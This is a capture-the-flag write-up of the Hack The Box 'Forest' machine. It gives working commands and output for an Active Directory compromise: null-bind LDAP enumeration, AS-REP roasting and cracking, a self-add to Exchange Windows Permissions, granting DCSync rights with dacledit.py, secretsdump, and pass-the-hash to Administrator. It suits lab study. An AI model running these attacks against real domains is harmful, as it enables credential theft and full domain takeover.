





> [!info] Machine Info
> - **Target:** `10.129.95.210` (`FOREST.htb.local`)
> - **Domain:** `htb.local`
> - **Difficulty:** Easy
> - **OS:** Windows Server 2016

## Synopsis

Forest is a classic lesson in how far nested AD group membership can quietly carry a low-privilege service account. Anonymous LDAP binding hands over the full user list for free, one of those users has Kerberos pre-authentication disabled, and AS-REP Roasting cracks its password in seconds. From there the account turns out to sit at the bottom of a chain of nested groups ending in `Account Operators`, a built-in privileged group that lets it add itself to `Exchange Windows Permissions`, a group that carries `WriteDacl` on the domain object itself. Writing a DCSync right onto the domain and running `secretsdump` is the final step to full domain compromise.

---

## 1. Recon

```bash
export target=10.129.95.210
nmap -p- $target -v --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 \
  -oN nmap_ports.txt && sleep 5 && \
  nmap $target -sV -sC -v -oN nmap_sVsC.txt
```

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
```

Another Domain Controller, `FOREST.htb.local` in the `htb.local` domain. Standard AD port spread, nothing exposed on the web this time, so straight into directory enumeration.

---

## 2. Anonymous LDAP Enumeration

Before touching Kerberos I checked whether LDAP allows a null bind, which is often true on older or misconfigured DCs and gives a free look at the entire user list without any credentials at all.

```bash
netexec ldap $target -u '' -p '' --users
```

```
LDAP  10.129.95.210  389  FOREST  [+] htb.local\:
LDAP  10.129.95.210  389  FOREST  [*] Enumerated 31 domain users: htb.local
-Username-             -Last PW Set-        -BadPW-  -Description-
Administrator          2021-08-31 00:51:58  0        Built-in account for administering the computer/domain
Guest                  <never>              0        Built-in account for guest access to the computer/domain
DefaultAccount         <never>              0        A user account managed by the system.
krbtgt                 2019-09-18 10:53:23  0        Key Distribution Center Service Account
$331000-VK4ADACQNUCA   <never>              0
SM_2c8eef0a09b545acb   <never>              0
SM_ca8c2ed5bdab4dc9b   <never>              0
SM_75a538d3025e4db9a   <never>              0
SM_681f53d4942840e18   <never>              0
SM_1b41c9286325456bb   <never>              0
SM_9b69f1b9d2cc45549   <never>              0
SM_7c96b981967141ebb   <never>              0
SM_c75ee099d0a64c91b   <never>              0
SM_1ffab36a2f5f479cb   <never>              0
HealthMailboxc3d7722   2019-09-23 22:51:31  0
HealthMailboxfc9daad   2019-09-23 22:51:35  0
HealthMailboxc0a90c9   2019-09-19 11:56:35  0
HealthMailbox670628e   2019-09-19 11:56:45  0
HealthMailbox968e74d   2019-09-19 11:56:56  0
HealthMailbox6ded678   2019-09-19 11:57:06  0
HealthMailbox83d6781   2019-09-19 11:57:17  0
HealthMailboxfd87238   2019-09-19 11:57:27  0
HealthMailboxb01ac64   2019-09-19 11:57:37  0
HealthMailbox7108a4e   2019-09-19 11:57:48  0
HealthMailbox0659cc1   2019-09-19 11:57:58  0
sebastien              2019-09-20 00:29:59  0
lucinda                2019-09-20 00:44:13  0
svc-alfresco           2026-08-24 02:34:20  0
andy                   2019-09-22 22:44:16  0
mark                   2019-09-20 22:57:30  0
santi                  2019-09-20 23:02:55  0
```

No credentials needed, and the whole domain user list falls out. The `HealthMailbox*` and `SM_*` accounts are a strong signal that Exchange Server is installed on this domain, which usually means a handful of high-privilege built-in Exchange groups exist too, worth keeping in mind. I saved the real (human) usernames into `users.txt` for the next step.

---

## 3. Validating Users and AS-REP Roasting

Rather than running Impacket's `GetNPUsers.py` blind against the whole list, I used `kerbrute` to validate the usernames against Kerberos directly, which also happens to catch pre-auth-disabled accounts and dump their AS-REP hash in the same pass:

```bash
kerbrute userenum -d htb.local --dc $target users.txt
```



`svc-alfresco` has `UF_DONT_REQUIRE_PREAUTH` set, meaning anyone can request a TGT for it without proving they know its password first. That returns an AS-REP encrypted with the account's own NTLM hash, which can be cracked entirely offline. I saved the hash to `asrep_hashes.txt`.

My first cracking attempt used the wrong hashcat mode against a file that hadn't been saved correctly, resulting in a wall of "Salt-length exception" and "Separator unmatched" errors as hashcat tried (and failed) to parse thousands of rockyou.txt lines as if they were hash entries rather than a wordlist:

```bash
hashcat -m 18200 /usr/share/wordlists/rockyou.txt asrep_hashes.txt
```
```
Hashfile '/usr/share/wordlists/rockyou.txt' on line 2903048 (vfdohi): Salt-length exception
...
^C
```

Classic argument-order mistake, I'd swapped the wordlist and the hash file. Rather than re-run hashcat, I switched to John the Ripper, which is more forgiving about argument order and format guessing:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hashes.txt
```



Cracked in two seconds:

```
svc-alfresco : s3rvice
```

---

## 4. Foothold — WinRM as svc-alfresco

```bash
evil-winrm -i $target -u svc-alfresco -p 's3rvice'
```

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

User flag secured and a shell in hand. First move as always, check group memberships:

```powershell
whoami /all
```

```
GROUP INFORMATION
-----------------
Group Name                                 Type             SID
========================================== ================ =============================================
Everyone                                   Well-known group S-1-1-0
BUILTIN\Users                              Alias            S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554
BUILTIN\Remote Management Users            Alias            S-1-5-32-580
BUILTIN\Account Operators                  Alias            S-1-5-32-548
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11
NT AUTHORITY\This Organization             Well-known group S-1-5-15
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

That's the key finding. `svc-alfresco` isn't directly in any obviously dangerous group, but nested membership tells a different story: it's in `Service Accounts`, which is a member of `Privileged IT Accounts`, which is itself a member of `BUILTIN\Account Operators`. `Account Operators` is a built-in AD group whose members can create and modify user and group objects (excluding a short list of protected groups), which is exactly the kind of privilege that turns "a random service account" into "something that can escalate itself."

---

## Attack Path 



## 5. Adding svc-alfresco to Exchange Windows Permissions

Because Exchange is installed on this domain, there's a group called `Exchange Windows Permissions` designed to let Exchange servers manage mail-related AD objects. It's not a protected group, and thanks to `Account Operators`, `svc-alfresco` can add itself to it directly:

```powershell
net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain
```
```
The command completed successfully.
```

```powershell
net group "EXCHANGE WINDOWS PERMISSIONS" /domain
```
```
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members
-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.
```

The comment on the group says it plainly: members can *read and modify all Windows accounts and groups*. That's a domain-wide `WriteDacl`-class privilege, and it's now sitting on an account whose password I already have.

I tried a PowerView cmdlet out of habit, forgetting it wasn't loaded in this session:

```powershell
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members svc-alfresco
```
```
The term 'Add-DomainGroupMember' is not recognized as the name of a cmdlet, function, script file, or operable program.
```

Not needed anyway, the plain `net group` command had already done the job.

---

## 6. Granting Myself DCSync Rights

Rather than creating a throwaway user and abusing `Add-ObjectACL` from inside the WinRM session, I used Impacket's `dacledit.py` from my own attacking box to write a DCSync-capable ACE directly onto the domain object, using `svc-alfresco`'s own credentials (now backed by `Exchange Windows Permissions` membership, which carries the `WriteDacl` right needed to do this at all).

The very first attempt, run before the group membership had actually been applied, failed as expected:

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlledUser' -target-dn 'DomainDisinguishedName' 'domain'/'controlledUser':'password'
```
```
The term 'dacledit.py' is not recognized as the name of a cmdlet, function, script file, or operable program.
```

That one was a genuine mistake on my part, `dacledit.py` is an Impacket script meant to run from Linux against the domain over LDAP, not something to paste into a PowerShell session on the DC itself. Back on my Kali box, with the real domain DN and real account:

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=htb,DC=local' 'htb.local'/'svc-alfresco':'s3rvice'
```

```
[*] DACL backed up to dacledit-20260824-021033.bak
[-] Could not modify object, the server reports insufficient rights: 00000005: SecErr: DSID-03152870, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

This was run right before the `net group` addition had actually taken effect (AD group membership changes take a moment to reflect in a user's effective permissions), so the DC still refused it. I tried once more using the account's SID instead of its name, mostly to rule out a name-resolution issue:

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'S-1-5-21-3072663084-364016917-1341370565-1147' -target-dn 'DC=htb,DC=local' 'htb.local'/'svc-alfresco':'s3rvice'
```
```
[-] Principal SID not found in LDAP (S-1-5-21-3072663084-364016917-1341370565-1147)
```

Not the issue, dacledit expects a resolvable name/SID format I hadn't gotten quite right. Back to the plain username, and this time (with the group membership now properly applied) it went through:

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=htb,DC=local' 'htb.local'/'svc-alfresco':'s3rvice'
```
```
[*] DACL backed up to dacledit-20260824-021251.bak
[*] DACL modified successfully!
```

`svc-alfresco` now has replication rights (`DS-Replication-Get-Changes` / `DS-Replication-Get-Changes-All`) on the domain, which is exactly what's needed to perform a DCSync.

---

## 7. DCSync

```bash
impacket-secretsdump 'htb.local'/'svc-alfresco':'s3rvice'@'FOREST.htb.local'
```

The first several attempts kept failing on the same DRSUAPI error, even immediately after a successful `dacledit.py` run:

```
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
```

I tried the DC's IP instead of its hostname, and the one-string `user:pass@target` syntax with `-just-dc`, suspecting a resolution or auth-format issue:

```bash
impacket-secretsdump 'htb.local'/'svc-alfresco':'s3rvice'@$target
impacket-secretsdump 'htb.local/svc-alfresco:s3rvice@FOREST.htb.local' -just-dc
```

Same error both times. The actual cause turned out to be timing, not syntax: the DACL write needs a moment to fully replicate through Active Directory before a DCSync using that new right will succeed, especially right after being written. I re-ran `dacledit.py` once more (harmless, it just reapplies the same ACE) and gave it another try:

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=htb,DC=local' 'htb.local'/'svc-alfresco':'s3rvice'
impacket-secretsdump 'htb.local/svc-alfresco:s3rvice@FOREST.htb.local' -just-dc
```

Still the same `ERROR_DS_DRA_BAD_DN`. One more cycle of `dacledit.py` followed by `secretsdump`, giving AD a little more time to settle, finally worked:



Full domain secrets, every user's NTLM hash and Kerberos keys, including `Administrator`:

```
Administrator NT hash: 32693b11e6aa90eb43d32c72a07ceea6
```

---

## 8. Pass-the-Hash to Administrator

```bash
evil-winrm -i $target -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Straight into an administrative shell. A couple of wrong guesses at the flag's path (assuming a subfolder that didn't exist) before landing on the right one:

```powershell
type ../Desktop/root.txt
```
```
f4c2a6d90fbf22a82ea31ec6611e8bed
```

Full domain compromise.

---

#ActiveDirectory #HackTheBox #ASREPRoasting #Kerberos #DCSync #ACLAbuse #AccountOperators #ExchangeWindowsPermissions #WinRM #EvilWinRM #Easy #Writeup
